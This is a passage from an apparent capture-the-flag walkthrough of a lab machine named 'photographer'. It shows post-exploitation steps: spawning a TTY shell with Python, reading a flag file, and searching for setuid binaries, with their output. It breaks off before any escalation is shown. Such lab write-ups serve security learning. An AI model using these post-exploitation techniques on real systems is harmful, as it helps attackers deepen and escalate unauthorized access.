 &nbsp;

## Post Exploitation

### Spawning a TTY shell

We can now upgrade this shell to a TTY shell using Python.

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@photographer:/$
```

### local.txt

Let's cat the local.txt flag.

```
www-data@photographer:/home/daisa$ cat local.txt  
cat local.txt
0efd95e22a381cfe8fb8ca1f970e8f34
```

### Privilege Escalation

#### SetUID binaries

We can use the find command to search for files on the system where the setuid bit is set.

```
www-data@photographer:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
```
